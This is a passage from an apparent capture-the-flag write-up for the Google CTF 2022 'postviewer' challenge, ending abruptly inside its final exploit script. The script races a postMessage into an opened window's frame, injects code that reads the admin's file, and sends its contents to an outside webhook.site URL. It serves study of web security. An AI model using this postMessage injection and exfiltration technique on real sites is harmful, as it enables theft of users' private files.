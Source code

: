 ```html
    }, 1000)
    </script>
```

After pointing bot to the `setup.html` file containing our payload, we received the contents of the first file which to our disappointment was not the flag:

```
Congratulations on fetching admin's file! 
The flag needs to be deciphered with a password that has been split into three random files. 
Because the password is random with each run, you will have to collect all three files. 
When you do so, just visit: https://postviewer-web.2022.ctfcompetition.com/dec1pher 
File info: 
Cipher: JBeymjg4WwbRA2BWbIZTdZPN+mKk5gzl8ZffggnDwmv7YnJU8gJIt7b219StD6SUyRreWTnkbWJ07OX1tXY+ 
Password part [1/3]: 1l1ky401ocpl6516lmkr4 
The challenge is easily solvable under 5 seconds, but as a token of appreciation I set up a secret endpoint for you that have a limit of 20 seconds: https://postviewer-web.2022.ctfcompetition.com/bot?s=s333cret_b00t_3ndop1nt
```

terjanq came up with an interesting way to avoid people accidentally leaking the flag, we need to be able to leak three files one after another to be able to decrypt the real flag. Luckily for us, it only means that we need to execute our exploit three times, every time adjusting `nth-child(x)` especially since we now have 15 more seconds to finish the exploit.


## Final exploit code

```html
<script>
    sleep = ms => new Promise(resolve => setTimeout(resolve, ms))
    essa = window.opener
    setTimeout(async function() {
        async function a(child) {
            console.log(child)
            essa.location.replace(`https://postviewer-web.2022.ctfcompetition.com/`)
            await sleep(500);
            for (var i = 0; i < 50; i++) {
                essa.location = `https://postviewer-web.2022.ctfcompetition.com/#a${i},a.list-group-item:nth-child(${child})`
            }
            function race() {
                if(essa.frames.length > 0) {
                    essa.frames[0].postMessage({ body: `
                    <script>
                    console.log("essa", Date.now())
                    window.onmessage = function(data) {
                        if(data.data.body  instanceof File) {
                            read = new FileReader();
                            read.readAsBinaryString(data.data.body)
                            read.onloadend = function(){
                                fetch("https://webhook.site/13471179-aed7-455f-9712-2500d28b85fa?content=" + encodeURIComponent(read.result));
                            }
                        }
                    }
                    <\/script>
                    <body>
                    </body>`, mimeType: "text/html" }, "*")
                    
                }
            }
            var gg = setInterval(race, 50);
            await sleep(5000);
            clearInterval(gg)
```